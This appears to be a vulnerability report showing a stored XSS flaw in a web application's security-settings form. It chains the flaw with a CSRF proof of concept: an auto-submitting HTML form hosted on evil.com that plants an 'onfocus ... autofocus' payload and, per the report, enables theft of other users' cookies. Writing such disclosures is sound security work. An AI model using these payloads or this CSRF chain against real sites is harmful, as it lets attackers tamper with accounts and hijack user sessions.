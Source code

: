 # XSS
1、	Log in later to the security settings page.

 ![img](https://github.com/Kevil-hui/bug-report/blob/master/pic/1.jpg)  
 
2、	Click save and intercept the package. It is found that the real name is URL encoded and other parameters are transmitted in clear text.

  ![i](https://github.com/Kevil-hui/bug-report/blob/master/pic/2.jpg)  
  
3、	XSS PAYLOAD1:1" onclick=alert(1)//   
    XSS PAYLOAD2：" onfocus=alert(1) autofocus ;'
    
You can set the submitted parameter of any of the five table boxes to 1 "onclick = alert (1) / /, and then replay the data package.
Because the onclick event needs to be triggered by clicking the table box, we can use the onfocus event and its autofocus attribute to automatically trigger the onfocus event, and modify the payload to: "onfocus = alert (1) autofocus;"

  ![i]( https://github.com/Kevil-hui/bug-report/blob/master/pic/3.jpg)  
 
4、	XSS triggered successfully.

  ![i]( https://github.com/Kevil-hui/bug-report/blob/master/pic/4.jpg)  
  
  
# CSRF
1、CSRF POC
Intercepts the request packet corresponding to "setting the security problem", because it is plaintext transmission, CSRF POC can be easily constructed, as follows

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://target.com/jsxsd/grsz/grsz_xggrxx.do" method="POST" id="csrf">
      <input type="hidden" name="realName" value="aa" />
      <input type="hidden" name="pwdQuestion1" value="11" />
      <input type="hidden" name="pwdAnswer1" value="3a3a" />
      <input type="hidden" name="pwdQuestion2" value="1" />
      <input type="hidden" name="pwdAnswer2" value="1&quot; onfocus=alert(/hacked!/) autofocus ;" />
      <input type="hidden" name="pageSize" value="101" />
      <input type="hidden" name="edit" value="11" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
<script>
    document.getElementById("csrf").submit();
</script>
</html>
```
2、Save the page to my server (simulating the attacker's server) at http://evil.com/jwcsrf.html

3、After confirming the login status, I will visit http://evil.com/target.com/jsxsd/jwcsrf.html

4、After accessing CSRF, xss will be triggered automatically, because changing the password needs to verify the original password. You can inject XSS page into other users' background through CSRF, and get user cookies by xss

  ![i]( https://github.com/Kevil-hui/bug-report/blob/master/pic/5.jpg)  
